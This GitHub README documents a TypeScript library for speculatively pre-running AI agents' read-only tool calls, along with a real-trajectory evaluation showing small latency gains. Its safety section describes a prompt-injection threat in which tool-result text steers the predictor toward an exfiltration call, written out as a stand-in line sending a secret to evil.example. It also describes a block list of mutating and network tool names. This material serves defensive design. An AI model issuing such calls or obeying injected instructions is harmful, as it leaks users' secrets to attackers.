

# speculate-tools

[](https://github.com/DevPatel3547/speculate-tools/actions/workflows/ci.yml)
[](CHANGELOG.md)
[](#development)
[](package.json)
[](LICENSE)

**Branch prediction for AI agent tool calls.** While the model is still thinking, guess the agent's next tool call,
run it in the background if (and only if) it is safe, and if the real call matches exactly, return the stored result
right away. Wrong guesses are thrown away. The agent sees exactly the results it would have seen without speculation.

This repository is two things:

1. **A TypeScript library** for *lossless* speculative tool execution, with an explicit safety model and drop-in
   integrations: any tool registry, the Anthropic Messages tool loop, Claude Agent SDK tools, any MCP server (as a
   no-code stdio proxy), and an LLM predictor that runs on a free local model.
2. **An honest evaluation.** A deterministic simulator says the idea can save up to ~11% of agent wall time. Replaying
   **8,754 real public coding-agent trajectories** says that for today's coding agents it saves about **0.1–0.2%**, and
   that even a perfect predictor could save only about **1–2%**. The second number is the more useful one, and the
   reasons behind it are written up below.

> [!IMPORTANT]
> **Key finding: on real coding-agent traces, speculative tool execution barely helps, and the reason is structural.**
>
> | real data: 8,754 trajectories, 330,942 tool calls, 5 public datasets | result |
> | --- | --- |
> | n-gram predictor, exact-match hit rate (read-only calls, held-out trajectories) | **5.0% top-1, 6.4% top-3** |
> | estimated share of agent wall time saved | **0.1–0.2%** |
> | ceiling: a *perfect* predictor under the same safety policy | **0.8–1.8%** |
> | median model think time vs median tool time (the only subset with timestamps) | **5.3 s vs 0.45 s** |
> | speculative executions thrown away | **~98%** |
>
> Coding agents spend most of their wall time *generating*, not waiting on tools, and only ~41% of their calls are
> safe to pre-run. By Amdahl's law the achievable speed-up is capped by the share of time spent in speculable tools,
> and here that share is ~2%. Speculation can only pay off where tools are **slow and read-only**: web browsing,
> deep-research search/fetch loops, remote sandboxes, remote MCP servers. [How to test that](#where-speculation-could-still-pay-off).

**Contents:** [How it works](#how-it-works) · [Safety guarantees](#safety-guarantees) · [Quickstart](#quickstart) ·
[Adapters](#adapters) · [Evaluation](#evaluation) · [Limitations](#limitations) · [Roadmap](#roadmap) ·
[How this was built](#how-this-was-built) · [Data attribution](#data-attribution)

More docs: [design notes](docs/DESIGN.md) · [threat model](SECURITY.md) · [trace format](docs/trace-format.md) ·
[raw benchmark reports](docs/benchmarks/) · [build log](docs/BUILD_LOG.md) · [interview guide](docs/INTERVIEW_GUIDE.md) ·
[changelog](CHANGELOG.md)

---

## How it works

An agent turn alternates two phases: the model generates (seconds), then a tool runs. While one runs the other idles.
Much of what agents do is predictable (after `grep` they read the first match; after `ls` they open a file), so the
library uses the model's thinking time to run the most likely next calls in advance, CPU-style.



The engine, end to end:

```
 agent loop      model thinking (seconds) ─────────────────────────►│ tool_use: read_file(src/a.ts)
                 │ beginRound()                                     │ call()
                 ▼                                                  ▼
 Speculator   predictors ──► safety gate ──► budget ──► executor ──► cache ──► exact match? ─ yes ─► validate ──► serve
              n-gram (µs)    read_only only   topK       semaphore    key = sha256(name,                    (epoch,
              LLM (~1 s)     not open-world   spend      AbortSignal  canonical JSON args)                  age,
              (stages)       unknown = never  limits     timeout                                            fingerprint)
                                                                                    └─ no / stale ──► run the real call

              any non-read-only real call ──► epoch++ and abort/flush everything, BEFORE and AFTER it runs
```

- **Predictors run as independent stages.** The n-gram predictor answers in microseconds and launches immediately; an
  LLM predictor launches whenever it answers. The n-gram learns tool sequences and *argument templates*: a literal value
  seen before, an argument copied from an earlier call, or a path/identifier extracted from an earlier result.
- **The safety gate** only lets `read_only` tools run speculatively (configurable, but `side_effecting` can never be
  allowed). Network (open-world) tools are excluded unless you opt in.
- **Matching is exact.** The cache key is a SHA-256 of the tool name plus canonical JSON arguments, with no lossy
  normalization. A finished speculation is a **hit** (saves the whole tool time); one still running is **joined**
  (saves the time already spent).
- **Everything else falls through** to a normal call. Speculation can only make a call faster, never different.

Saved time per hit is `min(tool latency, think window − predictor latency)`. The rationale for every mechanism, and
the race each one closes, is in [docs/DESIGN.md](docs/DESIGN.md).

## Safety guarantees

Speculation executes calls the agent has not decided to make, with arguments chosen by a predictor that reads
untrusted data. So the safety model is the core of the library, not an add-on. Each item below is enforced in code and
covered by tests; the full threat model (T1–T8) is in [SECURITY.md](SECURITY.md).

1. **Conservative tool classifier.** Every tool is `read_only`, `idempotent` or `side_effecting`. Order of evidence:
   your explicit `overrides`, then MCP annotations (`readOnlyHint`, ...), then name/description heuristics, else
   `side_effecting`. Unknown and unregistered tools are always `side_effecting`. For untrusted MCP servers, turn off
   annotations and heuristics and pass an explicit allowlist
   (`--no-trust-annotations --no-heuristics --read-only a,b`).
2. **Side-effect veto.** A mutating word anywhere in a tool's name *or description* (`write`, `delete`, `send`, `push`,
   `exec`, `install`, ... 130 words in all) vetoes a `readOnlyHint`. `side_effecting` is stripped from `allow` even if you
   pass it. A randomized test throws 2,000 hostile predictions at the engine and checks that only read-only tools ever
   execute speculatively.
3. **Network is opt-in, because of prompt injection.** A tool result can contain attacker text that steers the
   predictor toward something like `fetch("https://evil.example/?q=<secret>")`, a call the agent itself never makes.
   Open-world tools (MCP `openWorldHint`, network-ish names such as `web_*`/`*_url`/`curl`, URL-like argument names)
   are therefore not speculated unless `allowOpenWorld` is set. `--strict-open-world` follows the MCP default and
   treats a missing hint as open-world.
4. **Per-session caches.** One `Speculator` is one session: its own cache, history, epoch and budget. Multi-tenant
   servers use `SpeculatorPool`, which isolates sessions (LRU + idle-TTL eviction) and passes `ctx.sessionId` to
   handlers for per-user credentials. Cache keys are hashes; arguments are never logged unless `logArgs` is on.
5. **Stale-result validation.** Every non-read-only real call bumps an *epoch* and discards all speculative state
   **before and after** it runs, including reads that were in flight during the write. Validators
   (`fsValidator`: mtime/size, optional sha256; or `customValidator`) fingerprint external state *before* the
   speculative run and check it again at use; a mismatch, a validator error or a validator timeout re-executes the call.
   Results older than `maxAgeMs` are dropped; error results are never cached.
6. **Failures are invisible.** Predictor errors, malformed predictions, timeouts and throwing hooks fall back to a
   normal call and are counted in `metrics().internalErrors`. A real call never waits in the speculative queue.
7. **Lossless end to end.** Randomized read/write scripts with deliberately wrong and malicious predictions produce
   byte-identical transcripts with and without speculation; the simulator checks 200/200 identical transcripts per
   variant.

**Not guaranteed:** nondeterministic "read-only" tools (`now()`, `random()`) would return speculation-time results
(bounded by `maxAgeMs`), so do not mark them read-only. Read-only speculation still costs compute, rate limits and
money. Opting in to `idempotent` means its effect happens even if the agent never asks. External changes are only
caught for state a validator fingerprints.

## Quickstart

**Requirements:** Node 18.18+ to use the package (ESM and CommonJS); Node 22.12+ to develop on it. The package is not
published to npm; install it from a local build of this repository.

```bash
git clone https://github.com/DevPatel3547/speculate-tools.git
cd speculate-tools
npm ci
npm run check    # lint, format, typecheck, 136 tests + coverage, build, dist smoke tests
npm run examples # runs every example below (no API keys, no network)
npm pack         # builds dist/ and writes speculate-tools-1.0.0-rc.1.tgz
```

Then, in your own project:

```bash
npm install /path/to/speculate-tools/speculate-tools-1.0.0-rc.1.tgz
```

### In any agent loop

```ts
import { speculate, NGramPredictor } from "speculate-tools";

// your tools: { [name]: { spec: { name, description?, annotations? }, handler(args, ctx) } }
const s = speculate(myTools, {
  predictor: new NGramPredictor().train(pastTraces), // optional training; it also learns online
});

while (!done) {
  s.onModelStart({ messages }); // 1. speculation starts while the model thinks (do not await)
  const reply = await callModel(messages); // 2. the model thinks; safe predicted calls run meanwhile
  for (const tc of reply.toolCalls) {
    // 3. same handlers, same results, sooner when the guess was right
    results.push(await s.tools[tc.name].handler(tc.args, { signal, speculative: false }));
  }
}
console.log(s.metrics()); // realCalls, hits, joins, latencySavedMs, launched, wasted, internalErrors, ...
s.close();
```

`npx tsx examples/quickstart.ts` runs a complete version of this with sleeps standing in for the model and tools.
Output from a run (two 300 ms reads served from speculation, the write never speculated):

```
list_files -> "README.md\nsrc/app.ts"          1 ms
read_file  -> "see src/app.ts"                 6 ms
write_file -> "ok"                             2 ms
hits=2 joins=0 saved=604ms launched=4 wasted=2
```

### In front of any MCP server, with no code

Install the CLI globally from the tarball (`npm install -g /path/to/speculate-tools-1.0.0-rc.1.tgz`), then point
Claude Code or Claude Desktop at the proxy instead of the server (`.mcp.json`):

```json
{
  "mcpServers": {
    "fs": {
      "command": "speculate-tools",
      "args": ["mcp-proxy", "--", "npx", "-y", "@modelcontextprotocol/server-filesystem", "."]
    }
  }
}
```

Or run it in Docker: `docker build -t speculate-tools . && docker run -i --rm speculate-tools -- <upstream command>`.
`speculate-tools mcp-proxy --help` lists every flag. `npm run demo:mcp` shows it working over real stdio.

## Adapters

| Use case | API |
| --- | --- |
| Any agent loop | `speculate(tools, opts)` → `{ tools, speculator, onModelStart, metrics, close }` |
| Anthropic Messages API tool loop | `runAnthropicToolLoop({ client: new Anthropic(), model, messages, tools, speculator })` |
| Claude Agent SDK custom tools | `createSpeculativeSdkTools([...tool() defs], { serverName, predictor })` → `{ tools, speculator, hooks }` |
| Any stdio MCP server (CLI) | `speculate-tools mcp-proxy [options] -- <upstream cmd>`; Docker image; or `createSpeculativeMcpProxy` from `speculate-tools/mcp` |
| Multi-tenant servers | `new SpeculatorPool({ tools, predictor: (id) => new NGramPredictor() }).session(id)` |
| LLM predictor on a free local model | `new LLMPredictor({ client: new OpenAICompatibleLLMClient({ model: "qwen2.5-coder:7b" }), tools })` |
| LLM predictor on Anthropic | `new LLMPredictor({ client: new AnthropicLLMClient(new Anthropic(), { model }), tools })` |
| Observability | `logger: console`, `telemetry: otelTelemetry(meter)` (any OpenTelemetry `Meter`; no dependency) |
| Offline evaluation | `speculate-tools eval-traces <file.jsonl[.gz]>`, or `evaluateTraces` from `speculate-tools/eval` |

**Anthropic tool loop.** `runAnthropicToolLoop` is the standard Messages tool-use loop with speculation hooked in:
`beginRound({ messages })` fires concurrently with `messages.create`, and each `tool_use` block runs through the
speculator in the order the model emitted it. It is structurally typed, so `@anthropic-ai/sdk` is not a dependency.

```ts
import Anthropic from "@anthropic-ai/sdk";
import { Speculator, NGramPredictor, runAnthropicToolLoop } from "speculate-tools";

const speculator = new Speculator({ tools, predictor: new NGramPredictor() });
const { messages: transcript } = await runAnthropicToolLoop({
  client: new Anthropic(), model: "<model id>", messages, tools, speculator,
});
```

**Claude Agent SDK hooks.** Wrap your `tool()` definitions; the returned hooks start a round on `PostToolBatch` (or
`PostToolUse`) and treat built-in writes as invalidations. Built-in tools (Read, Grep, Bash) run inside the Claude Code
runtime, so they are observed for prediction context but cannot be served from the cache.

```ts
const s = createSpeculativeSdkTools([searchDocs, getTicket], { serverName: "kb", predictor: new NGramPredictor() });
const server = createSdkMcpServer({ name: "kb", tools: s.tools });
for await (const msg of query({ prompt, options: { mcpServers: { kb: server }, hooks: s.hooks } })) { /* ... */ }
```

**MCP proxy CLI.** A stdio MCP server that forwards every call upstream and, between calls, pre-runs predicted
read-only calls. Defaults: `--top-k 2`, `--max-concurrency 4`, `--timeout-ms 30000`, `--max-age-ms 60000`. Logs and a
final metrics line go to stderr; stdout carries only the protocol. Pre-train with `--traces <file>`.

**Local OpenAI-compatible predictor.** `OpenAICompatibleLLMClient` talks to any `POST {baseURL}/chat/completions`
server (Ollama by default at `http://localhost:11434/v1`, llama.cpp `llama-server`, vLLM), so the LLM predictor needs
no API key and sends no data off the machine. `stripReasoning` handles `<think>` output. Try it with
`LLM_BASE_URL=http://localhost:11434/v1 LLM_MODEL=qwen2.5-coder:7b npx tsx examples/local-llm-predictor.ts`.

### Configuration (safe defaults)

| option | default | meaning |
| --- | --- | --- |
| `allow` | `["read_only"]` | classes that may run speculatively (`side_effecting` is always refused) |
| `allowOpenWorld` | `false` | allow network tools (`true` or a list of names); exfiltration risk via prompt injection |
| `classifier` | annotations + heuristics | `overrides`, `trustAnnotations`, `heuristics`, `openWorldByDefault` |
| `topK` / `minScore` | 3 / 0.05 | launches per predictor stage per round (`0` disables) |
| `maxConcurrency` / `limiter` | 4 | concurrent speculative executions (shared `Semaphore` for global limits) |
| `timeoutMs` / `maxAgeMs` | 30 s / 60 s | abort slow speculation / discard old results |
| `maxCacheEntries` / `maxCacheBytes` / `maxHistory` | 64 / 64 MiB / 200 | memory bounds |
| `validators` / `validatorTimeoutMs` | none / 2 s | staleness checks |
| `budget` | unlimited | `maxTotal`, `maxPerRound`, `costOf(call)` |
| `normalizeArgs` | none | opt-in key normalization (must not change outputs) |
| `acceptResult` | accept | refuse caching some results (the MCP proxy refuses `isError`) |
| `logger` / `logArgs` / `telemetry` / `onEvent` | silent / `false` / none / none | observability |
| `sessionId` | none | passed to handlers as `ctx.sessionId` |

Invalid values throw at construction. Full JSDoc ships with the type declarations.

## Evaluation

Three kinds of evidence, kept strictly apart: **real trajectories** (offline replay, the result that matters), a
**real process on a toy server** (the mechanism works end to end), and a **simulator** (where the idea looks best).

### 1. Real agent trajectories (trace replay)

**Data.** 8,754 public coding-agent trajectories with 330,942 tool calls, derived from five Hugging Face datasets
(SWE-agent, SWE-rebench/OpenHands, SWE-smith, SWE-Gym/OpenHands, and real-user OpenHands sessions; see
[Data attribution](#data-attribution)). Message text, reasoning and patches were dropped. Each step carries a
per-call safety class (shell commands are classified from their parsed program list, so `grep foo` and `grep foo > out`
differ).

**Method** (`eval:traces`, documented in [docs/trace-format.md](docs/trace-format.md)):

- Train/test split **by trajectory**, never by step: 70/30 by a hash of the trajectory id (6,111 train / 2,643 test
  trajectories; 231,871 / 99,071 steps).
- The n-gram predictor is trained on the training set and keeps learning online while it replays the test set.
- Before each test step it predicts from the preceding steps exactly as the live `Speculator` does, drops tools that
  may not be speculated, and launches the top 3.
- Only steps whose own class is `read_only` are scored. A **hit** is an exact match on tool name and canonical
  arguments. The no-op `think` tool is excluded, because counting it inflates top-1 from 5.0% to 8.2% without saving
  any time.

**Hit rates (read-only policy):**

| REAL data | test trajectories | speculable test calls | top-1 hit | top-3 hit |
| --- | ---: | ---: | ---: | ---: |
| **all sources** | 2,643 | 40,650 | **5.0%** | **6.4%** |
| nebius/SWE-agent-trajectories | 925 | 9,380 | 14.4% | 18.0% |
| all-hands/openhands-feedback (real users) | 82 | 423 | 8.0% | 9.7% |
| nebius/SWE-rebench-openhands-trajectories | 903 | 25,301 | 2.4% | 3.3% |
| SWE-Gym/OpenHands-SFT-Trajectories | 149 | 1,460 | 1.8% | 1.9% |
| SWE-bench/SWE-smith-trajectories | 584 | 4,086 | 0.0% | 0.1% |
| openhands-feedback held out, trained on everything else ¹ | 140 | 683 | 11.9% | 13.2% |

¹ `--test-prefix ohfb- --test-fraction 0.5`: test only on the real-user sessions, train on all other trajectories.

The predictor picks the right **tool** 42.2% of the time (top-1) but rarely the exact **arguments**. It is strong on
stereotyped calls (`scroll_down` 55.5%, `search_dir` 21.7%, `git diff` 22.5% top-1) and at 0.0% on calls whose
arguments are new text (`grep` and `find` command lines).

**Estimated latency saved.** Only all-hands/openhands-feedback has wall-clock timestamps: median model think time
**5.3 s** (5,268 ms over 6,101 steps), median tool time **0.45 s** (452 ms over 5,703 steps). The estimate assumes
speculation for step *i* starts when step *i−1* returns, so a hit saves `min(tool time, think time)`.

| REAL data, estimated | baseline wall time | saved by n-gram | ceiling (perfect predictor) | wasted executions |
| --- | ---: | ---: | ---: | ---: |
| openhands-feedback held out (timings measured on 98.6% / 92.2% of steps) | 35,064.8 s | 32.3 s (**0.1%**) | 265.7 s (**0.8%**) | 3,320 |
| all sources (medians applied where timings are missing) | 579,218.5 s | 939.1 s (**0.2%**) | 10,537.2 s (**1.8%**) | 140,793 |
| all sources, `idempotent` opt-in (`python`, `pytest`, ...) | 579,218.5 s | 2,282.3 s (0.4%) | 34,311.3 s (5.9%) | 268,148 |

These are upper bounds: they ignore concurrency limits, budgets, validator rejections and contention between
speculative and real work. On the full test set, 140,793 speculative executions were wasted against 2,586 hits
(~98% waste). With the `idempotent` opt-in, top-1/top-3 rise to 5.8%/7.2%, but 11 exactly-predicted calls would have
been unsafe under name-only classification, which is why that opt-in stays off by default.

**Why the gains are so small.** Amdahl's law: speculation can only remove time spent in speculable tools.

- At the medians, a tool call is 0.45 / (5.3 + 0.45) ≈ 8% of a step, and only ~41% of calls are read-only, so even
  before hit rates enter, the room is a few percent. The measured ceiling is 1.8% (0.8% on the timed real-user set),
  because the read-only tools (file views, `ls`, `grep`) are also the fastest ones.
- The n-gram realizes about one tenth of that ceiling (939.1 s of 10,537.2 s).
- A perfect predictor would cap the speed-up at about 1.02×. No predictor improvement changes that; only a workload
  with slower read-only tools does.

**Caveat that understates the n-gram.** These datasets strip tool *results*, which disables the predictor's
result-derived argument templates ("read the first file grep returned"), its main mechanism in the simulator. That
caveat moves the hit rate, not the ceiling.

Raw reports: [docs/benchmarks/](docs/benchmarks/). Reproduce (the dataset is not in this repo; see
[docs/benchmarks/README.md](docs/benchmarks/README.md) for how it was built):

```bash
npm run eval:traces -- trajectories.jsonl.gz --tool-classes tool_classes.json --exclude-tools think --think-ms 5300 --tool-ms 450
npm run eval:traces -- trajectories.jsonl.gz --tool-classes tool_classes.json --exclude-tools think --think-ms 5300 --tool-ms 450 --test-prefix ohfb- --test-fraction 0.5
```

The first command reproduces `docs/benchmarks/real-all.txt` byte for byte (about 2 minutes).

### 2. Real process, toy server: the MCP proxy over stdio

`npm run demo:mcp` runs the CLI proxy over real stdio in front of a demo server whose read tool sleeps 400 ms. After the
proxy has learned the `readme → setup` pattern online, repeat calls return in **about 3 ms instead of about 410 ms**
(4 of 6 calls hit). The same test runs against the Docker image in CI. This shows the mechanism works end to end; it
is not a workload benchmark.

### 3. Simulated coding agent (`npm run bench`)

A scripted but stochastic coding agent on a generated repository (list, grep, read, edit, run tests), with simulated
model think time (log-normal, median 1.8 s per read decision, 7 s per edit) and simulated tool latency. It runs on a
virtual clock, so it is deterministic: 300 training and 200 evaluation tasks, and every transcript must be identical
with and without speculation. "sim-LLM@60%" is **not a model**; it is an oracle that reveals each true next call with
60% probability.

| SIMULATED, remote-sandbox profile (read 350 ms, grep 1.2 s, tests 9 s) | time saved | hit rate | precision | identical |
| --- | ---: | ---: | ---: | ---: |
| n-gram, read-only tools | 3.7% | 43.9% | 25.1% | 200/200 |
| n-gram, + run_tests (idempotent opt-in) | 8.9% | 57.0% | 30.2% | 200/200 |
| n-gram + sim-LLM@60%, read-only | 6.0% | 61.4% | 22.3% | 200/200 |
| n-gram + sim-LLM@60%, + run_tests | 11.2% | 74.6% | 25.6% | 200/200 |
| ceiling: oracle, 0 ms, + run_tests | 13.7% | 86.2% | 100.0% | 200/200 |

On the *local* profile (read 5 ms, grep 80 ms) read-only speculation saves 0.2%. Full tables: `npm run bench`.

**Why the simulator and the real data disagree.** The simulator's agent thinks for less time (median 1.8 s vs 5.3 s),
its tools are slower (350 ms–9 s vs a 0.45 s median), its call patterns are scripted and therefore stereotyped, and
its traces include tool results, which the n-gram's argument templates rely on. Each of those favors speculation. The
simulator is useful for testing correctness and mechanisms; it is not evidence about real workloads.

### Where speculation could still pay off

The formula says what to look for: a large share of wall time in tools that are **slow, read-only and predictable**.

- **Web browsing and deep-research agents.** Search and fetch calls take seconds, are read-only, and often follow
  stereotyped patterns (search, then open the top results). They are also open-world, so they need
  `allowOpenWorld` with a reviewed policy, because of the prompt-injection exfiltration risk above.
- **Remote sandboxes and remote MCP servers**, where every call pays network latency on top of the work.
- **Slow read-only queries**: database reads, ticket and document lookups, code search over large monorepos.

How to test a candidate workload, cheapest first:

1. **Measure the ceiling before building anything.** Export real trajectories with per-step `think_ms` and `tool_ms`
   in the [trace format](docs/trace-format.md) and run `eval:traces`. The "ceiling" line is the most any predictor
   could save under your safety policy. If it is a few percent, stop.
2. **Measure the hit rate** on held-out trajectories (the same report), with `--allow-open-world` only if you would
   actually deploy that policy. Keep tool results in the traces so result-derived templates work.
3. **Price the waste.** The report counts wasted executions and their tool time; at ~98% waste, metered APIs need
   `budget`, `topK` and `minScore`.
4. **Run a live A/B** with speculation on and off and compare wall-clock p50/p90, cost and task success.

## Limitations

- Real-trace results cover public **coding-agent** datasets only, with tool results stripped; there is no live A/B
  measurement yet. Only one source (263 sessions) has wall-clock timings; the rest use those medians.
- The LLM predictor is tested against mocks and a local mock server; it has **not** been measured on real traces.
- Classification is per tool name in the library. Shell-style tools whose safety depends on their arguments need
  explicit overrides or should not be marked read-only (the evaluation classifies shell calls per call; the library
  does not).
- The Agent SDK adapter cannot serve built-in tools (Read, Grep) from the cache; it only observes them. It is written
  against structural types and has not been tested against the real SDK package.
- The MCP proxy forwards tools only (no resources or prompts), reads the tool list once, and speculates after each
  result rather than from the conversation.
- Speculative work competes with real work for CPU and rate limits; neither the simulator nor `eval:traces` models it.

## Roadmap

1. Evaluate a non-coding workload with slow read-only tools (deep research: search/fetch) under an explicit
   open-world policy, starting with the ceiling measurement above.
2. Measure the LLM predictor (a local Qwen/Llama model via `OpenAICompatibleLLMClient`) on the real trajectories:
   top-1/top-3 and its own latency vs the n-gram.
3. Collect trajectories that keep tool results (to enable result templates), and move argument-aware classification
   for shell tools from the evaluator into the library.
4. Replay traces against real sandboxes (one Docker container per task) with speculation on and off, to measure real
   waste and contention.
5. Live A/B on a SWE-bench Verified subset: wall-clock p50/p90, cost, and an unchanged resolve rate.

## Development

```bash
npm ci
npm run check   # lint, format check, typecheck, tests + coverage, build, dist smoke tests
```

| | |
| --- | --- |
| Code | ~4.5k lines of TypeScript in `src/`, no runtime dependency except `@modelcontextprotocol/sdk` (only loaded by `speculate-tools/mcp`) |
| Tests | 136 Vitest tests (12 files) + 8 `node:test` smoke tests against the built package (ESM, CJS, CLI, real-stdio MCP proxy) |
| Coverage | 96% lines, 88% branches (enforced thresholds 85% / 75%) |
| Build | tsup, dual ESM/CJS with `.d.ts`/`.d.cts`; entry points `.`, `./mcp`, `./eval` |
| CI | GitHub Actions: lint, typecheck, tests + coverage, build, `npm pack`, examples, a short bench; dist smoke tests on Node 18/20/22; Docker build |

Node 22.12+ for development; see [CONTRIBUTING.md](CONTRIBUTING.md). Release notes: [CHANGELOG.md](CHANGELOG.md).
Code of conduct: [CODE_OF_CONDUCT.md](CODE_OF_CONDUCT.md).

**Prior work.** *Speculative Actions: A Lossless Framework for Faster Agentic Systems* (Ye et al., arXiv
[2510.04371](https://arxiv.org/abs/2510.04371)) reports up to 55% next-action prediction accuracy and up to 20% lower
latency. *Parallelizing Tool Execution and LLM Generation for Low-Latency Agent Serving* (PASTE, Sui et al., arXiv
[2603.18897](https://arxiv.org/abs/2603.18897)) reports a 43.5% reduction in average task completion time. This
library is a provider-agnostic implementation with an explicit safety model, drop-in integrations, and an offline
evaluator for checking whether a given workload can benefit at all.

## How this was built

Built by **Dev Patel** (Technical Solutions Engineer at YinzCam, Pittsburgh; B.S. Computer Science, Texas A&M, 2025)
with **Claude** (Anthropic) as an AI pair-programmer. The project went from a simulated prototype, to a hardening pass
(the bugs it found are listed in the [changelog](CHANGELOG.md)), to an evaluation on real public trajectories that
overturned the simulator's optimism. The chronological story is in [docs/BUILD_LOG.md](docs/BUILD_LOG.md); common
questions about the design and the results are answered in [docs/INTERVIEW_GUIDE.md](docs/INTERVIEW_GUIDE.md).

## Data attribution

The real-trajectory results were computed on a derived dataset (tool names, normalized/truncated arguments, result
sizes, timings and a derived side-effect class; message text, reasoning and patches dropped) built from these public
Hugging Face datasets, downloaded 2026-10-11. **The derived data is not redistributed in this repository.**

- nebius/SWE-agent-trajectories (Badertdinov et al., Nebius AI R&D),
  <https://huggingface.co/datasets/nebius/SWE-agent-trajectories>, **CC BY 4.0**. Subsampled: 3,000 rows.
- nebius/SWE-rebench-openhands-trajectories (Qwen3-Coder-480B-A35B-Instruct + OpenHands v0.54.0),
  <https://huggingface.co/datasets/nebius/SWE-rebench-openhands-trajectories>, **CC BY 4.0**. Subsampled: 3,000 rows.
- SWE-bench/SWE-smith-trajectories, <https://huggingface.co/datasets/SWE-bench/SWE-smith-trajectories>, **MIT**
  (copyright the dataset authors). Subsampled: 2,000 rows.
- SWE-Gym/OpenHands-SFT-Trajectories, <https://huggingface.co/datasets/SWE-Gym/OpenHands-SFT-Trajectories>, **MIT**
  (copyright the dataset authors). 491 rows.
- all-hands/openhands-feedback, <https://huggingface.co/datasets/all-hands/openhands-feedback>, **MIT** (copyright the
  dataset authors). 263 public sessions with agent actions.

Changes made: subsampling, removal of message text, model reasoning and patches, argument normalization/truncation,
repository roots replaced with `$REPO`, and an added per-call side-effect class. No endorsement by the dataset authors
is implied. If you redistribute data derived from the MIT-licensed sources, include their MIT notices.

## License

MIT © 2026 Dev Patel
